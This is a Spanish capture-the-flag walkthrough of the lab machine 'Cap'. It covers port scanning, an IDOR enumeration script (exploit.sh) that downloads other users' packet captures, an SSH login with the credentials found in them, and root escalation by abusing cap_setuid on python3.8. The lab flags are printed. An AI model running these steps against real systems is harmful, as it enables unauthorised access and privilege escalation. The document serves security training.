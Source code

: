 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cap

`Cap` es una máquina Linux de dificultad fácil que ejecuta un servidor HTTP que realiza funciones administrativas, incluida la realización de capturas de red. Los controles inadecuados dan como resultado una referencia directa a objetos insegura (IDOR) que otorga acceso a la captura de otro usuario. La captura contiene credenciales de texto sin formato y se puede utilizar para obtener un punto de apoyo. Luego, se aprovecha una capacidad de Linux para escalar a la raíz.

<figure><img src="../../.gitbook/assets/Cap.png" alt="" width="563"><figcaption></figcaption></figure>

***





```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.245 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 13:28 CET
Initiating SYN Stealth Scan at 13:28
Scanning 10.10.10.245 [65535 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Completed SYN Stealth Scan at 13:28, 20.61s elapsed (65535 total ports)
Nmap scan report for 10.10.10.245
Host is up, received user-set (0.14s latency).
Scanned at 2025-01-26 13:28:23 CET for 20s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 20.78 seconds
           Raw packets sent: 65804 (2.895MB) | Rcvd: 65819 (2.633MB)
```





```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.245
	[*] Open ports: 21,22,80

[*] Ports copied to clipboard
```







```bash
❯ nmap -sCV -p21,22,80 10.10.10.245 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 13:29 CET
Nmap scan report for 10.10.10.245
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   101.38 ms 10.10.16.1
2   32.57 ms  10.10.10.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.94 seconds
```





```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/4134_vmware_uq9TPTUlOo.png" alt=""><figcaption></figcaption></figure>



```bash
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```



<figure><img src="../../.gitbook/assets/imagen (268).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (269).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (270).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/4138_vmware_Nq9zMQJiwy.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (271).png" alt=""><figcaption></figcaption></figure>

5 segundos

<figure><img src="../../.gitbook/assets/imagen (272).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (273).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/imagen (274).png" alt=""><figcaption></figcaption></figure>



```bash
#!/bin/bash

# Crear la carpeta si no existe
mkdir -p PCAPS

# Descargar los archivos y guardarlos como $i.pcap
for i in {0..100}; do
    # Intentar descargar el archivo y verificar si existe
    wget -q --show-progress "http://10.10.10.245/download/$i" -O "PCAPS/$i.pcap" 2>/dev/null
    if [ $? -ne 0 ]; then
        # Eliminar el archivo vacío si la descarga falla
        rm -f "PCAPS/$i.pcap"
    fi
done
```



```bash
❯ chmod +x exploit.sh

❯ ./exploit.sh

❯ ls -l PCAPS
.rw-rw-r-- kali kali 9.7 KB Sat May 15 21:53:54 2021  0.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:38:29 2025  1.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:07 2025  2.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:42 2025  3.pcap
.rw-rw-r-- kali kali 488 B  Sun Jan 26 13:39:58 2025  4.pcap
```





<figure><img src="../../.gitbook/assets/imagen (275).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (276).png" alt=""><figcaption></figcaption></figure>



```bash
❯ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

...[snip]...

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ cat user.txt
f58f8216595***********************
```





```bash
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep

nathan@cap:~$ which python3.8 | xargs ls -l
-rwxr-xr-x 1 root root 5486384 Jan 27  2021 /usr/bin/python3.8
nathan@cap:~$ which python3.8 | xargs getcap
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```





```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system("whoami")
root
0
>>> os.system("/bin/bash")
root@cap:~# cat /root/root.txt
d6f9670f22792e4ad2979e67595cb414
```
